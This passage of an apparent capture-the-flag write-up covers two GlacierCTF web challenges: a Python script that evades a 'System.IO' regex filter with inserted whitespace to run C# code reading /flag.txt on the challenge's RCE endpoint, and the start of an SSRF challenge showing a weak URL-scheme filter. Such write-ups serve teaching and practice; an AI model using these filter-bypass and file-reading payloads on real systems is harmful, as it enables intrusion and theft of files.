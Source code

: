The regex looks for the exact match of `"System.IO"`. Since we know that the grammars on which common programming languages are built typically allow us to insert any mount of whitespaces between keywords, we can bypass this regex just by inserting a whitespace between a keyword (`System` or `IO`) and the dot which separates them.

```py
#!/usr/bin/env python3
import requests

base = 'https://rce-as-a-service-2.ctf.glacierctf.com'

def send_rce(data, code):
    endpoint = base + '/rce'
    payload = { 'Data': data, 'Query': code}
    res = requests.post(endpoint, json=payload)
    return res.text

print(send_rce(["/flag.txt"],
    '(data) => data.Select((d) => System. IO.File.ReadLines(d))'))
```

### Glacier Top News

A Flask API with a Vue front-end is given us. The code is available [here](/posts/downloads/glacier_glacier_top_news.zip). Note that this challenge is running on Python 2. There are a few routes that are weirdly written, but that is probably due to Vue being used for the front-end.

Then, there is an endpoint that smells of SSRF really badly:

```py
@app.route('/api/get_resource', methods=['POST'])
def get_resource():
    url = request.json['url']

    if(Filter.isBadUrl(url)):
        return 'Illegal Url Scheme provided', 500

    content = urlopen(url)
    return content.read(), 200
```

This seems to use the Filter class, which is defined in `utils.py`:

```py
class Filter:
    BAD_URL_SCHEMES = ['file', 'ftp', 'local_file']
    BAD_HOSTNAMES = ["google", "twitter", "githubusercontent", "microsoft"]

    @staticmethod
    def isBadUrl(url):
        return Filter.bad_schema(url)

    @staticmethod
    def bad_schema(url):
        scheme = url.split(':')[0]
        return scheme.lower() in Filter.BAD_URL_SCHEMES

    @staticmethod
    def bad_urls(url):
        for hostname in Filter.BAD_HOSTNAMES:
            if hostname in url:
                return True

        return False
```
